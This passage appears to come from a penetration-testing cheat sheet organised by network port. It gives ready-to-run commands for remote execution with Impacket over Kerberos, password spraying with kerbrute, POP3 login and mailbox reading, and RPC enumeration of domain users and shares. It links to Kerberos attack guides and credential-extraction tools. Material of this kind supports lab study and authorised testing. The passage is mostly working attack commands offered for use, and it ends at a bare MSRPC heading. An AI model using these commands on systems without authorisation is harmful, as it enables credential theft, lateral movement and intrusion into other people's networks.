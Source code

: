 ```bash
python3 smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python3 wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass

# https://www.tarlogic.com/blog/como-funciona-kerberos/
# https://www.tarlogic.com/blog/como-atacar-kerberos/

python kerbrute.py -dc-ip IP -users /root/htb/kb_users.txt -passwords /root/pass_common_plus.txt -threads 20 -domain DOMAIN -outputfile kb_extracted_passwords.txt

# https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/
# https://github.com/GhostPack/Rubeus
# https://github.com/fireeye/SSSDKCMExtractor
# https://gitlab.com/Zer1t0/cerbero
```

## Port 110 - Pop3

```bash
telnet 10.11.1.111
USER pelle@10.11.1.111
PASS admin

# or:

USER pelle
PASS admin

# List all emails
list

# Retrieve email number 5, for example
retr 9
```

## Port 111 - Rpcbind

```bash
rpcinfo -p 10.11.1.111
rpcclient -U "" 10.11.1.111
    srvinfo
    enumdomusers
    getdompwinfo
    querydominfo
    netshareenum
    netshareenumall
```

## Port 135 - MSRPC

Some versions are vulnerable.
